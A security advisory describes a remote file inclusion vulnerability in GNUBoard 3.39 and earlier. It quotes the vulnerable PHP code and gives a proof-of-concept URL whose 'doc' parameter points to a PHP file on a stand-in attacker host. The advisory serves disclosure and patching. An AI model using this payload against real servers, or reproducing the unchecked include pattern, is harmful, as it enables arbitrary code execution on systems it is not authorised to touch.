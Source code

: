```text
### STG Security Advisory: [SSA-20041214-14] GNUBoard PHP injection vulnerability

**Vulnerability Class:**
Implementation Error: Input validation flaw

**Impact:**
High: arbitrary command execution.

**Affected Products:**
GNUBoard 3.39 and prior versions
php.ini: register_globals = On

**Root Cause:**
Improper verification of input value of the parameter "doc" in "index.php".

**Attack Vector:**
By manipulating the "doc" parameter in "index.php," a malicious attacker can include arbitrary files from external or local resources, leading to arbitrary command execution with the privileges of the HTTPD process.

**Vulnerability Details:**
The code in `index.php` does not properly validate the "doc" parameter before including it.

```php
if (!$doc) {  (1) <-- check point
    $doc = './main.php';
}

// php ??? ??? ??? ? ??
$tmp = explode(".", $doc);
$extension = $tmp[count($tmp)-1];
if (!preg_match("/^(php[[3]](#3)?|[p]?htm[l]?)$/i", $extension) || count($tmp)<=1)
{
    echo "php php3 htm html phtml ??? ??? ? ????.";
    exit;
}
......
ob_start();
include $doc; (2) <-- include point
```

**Exploitation:**
An attacker can specify a URL to a malicious PHP file using the "doc" parameter, which will then be included and executed by the server.

**Proof of Concept:**
`http://[victim]/gnu3/index.php?doc=http://[attacker]/[attack].php`

**Solution:**
Update to GNUBoard 3.40
```